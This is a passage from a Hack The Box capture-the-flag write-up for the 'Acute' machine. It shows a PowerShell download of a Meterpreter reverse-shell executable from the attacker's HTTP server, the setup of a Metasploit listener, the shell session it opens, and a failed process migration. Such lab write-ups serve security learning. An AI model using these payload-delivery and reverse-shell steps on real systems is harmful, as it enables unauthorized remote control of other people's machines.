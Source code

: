 - **Transfer the reverse shell to `Acute-PC01`:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|14:04:17(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
PS > iwr -Uri http://10.10.14.19/revshell_meterpreter_stageless.exe -OutFile C:\Utils\revshell_meterpreter_stageless.exe
```

- **Setup the Metasploit listener:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|14:04:57(HKT)]
└> msfconsole 
[...]
msf6 > use exploit/multi/handler
[...]
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.19
LHOST => 10.10.14.19
msf6 exploit(multi/handler) > set LPORT 53
LPORT => 53
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.19:53 

```

- **Execute the reverse shell:**

```shell
PS > C:\Utils\revshell_meterpreter_stageless.exe
```

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.19:53 
[*] Meterpreter session 1 opened (10.10.14.19:53 -> 10.10.11.145:49811) at 2023-08-15 14:07:53 +0800

meterpreter > 
```

- **Migrate to another process:**

```shell
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/windows/manage/migrate 
msf6 post(windows/manage/migrate) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/migrate) > run

[*] Running module against ACUTE-PC01
[*] Current server process: revshell_meterpreter_stageless.exe (5396)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[-] Post failed: Rex::Post::Meterpreter::RequestError stdapi_sys_process_execute: Operation failed: The system cannot find the file specified.
[-] Call stack:
[-]   /opt/metasploit-framework/embedded/framework/lib/rex/post/meterpreter/extensions/stdapi/sys/process.rb:176:in `execute'
[-]   /opt/metasploit-framework/embedded/framework/modules/post/windows/manage/migrate.rb:111:in `create_temp_proc'
```